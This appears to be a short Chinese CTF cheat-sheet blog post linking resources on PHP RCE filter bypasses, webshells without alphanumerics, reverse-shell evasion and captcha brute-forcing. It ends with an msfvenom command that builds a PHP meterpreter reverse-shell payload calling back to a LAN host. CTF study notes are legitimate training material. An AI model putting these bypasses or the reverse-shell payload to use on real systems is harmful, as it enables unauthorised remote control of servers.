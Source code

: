 ```yaml
---
title: "CTF 快速查ban"
onlyTitle: true
date: 2024-8-2 17:10:57
categories:
- ctf
tags:
- CTF
top: true
img: https://typora-202017030217.oss-cn-beijing.aliyuncs.com/%E5%9B%BE%E7%89%87%E7%B4%A0%E6%9D%90/1080P%20A%20%E6%94%B6%E8%97%8F%E9%87%8F%E6%9C%80%E5%A4%9A/1080PA%E5%A3%81%E7%BA%B895.jpg

---
```


## ctf平台

ctf复现：https://gz.imxbt.cn/account/login

## Common-Collections

CC链

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240802170805620.png)

## trick绕过

RCE绕过preg_match 

https://zhuanlan.zhihu.com/p/392606966

PHP特性绕过WAF函数，如get_defined_vars()

https://www.runoob.com/php/php-variable-handling-functions.html

无字母数字RCE：

https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html#php5shell

https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html

反弹shell绕过

https://xz.aliyun.com/t/14240?u_atoken=587a65cb6338b3cc0d7fb5e0102746e4&u_asig=1a0c399817268327732403019e00a7

kali默认的是zsh[](https://so.csdn.net/so/search?q=zsh&spm=1001.2101.3001.7020) shell，所以如果想把kali的shell用bash反弹出去的话需要先用**bash命令进入bash shell**才能使用bash反弹shell

验证码爆破可以用burp+ddddocr

在可以exec执行任意代码时，可以msfvenom生成对应语言的反弹shell txt，并执行，如php：

```shell
msfvenom -p php/meterpreter/reverse_tcp -f raw LHOST=192.168.127.131 LPORT=4321 > /var/www/html/shell.txt
```
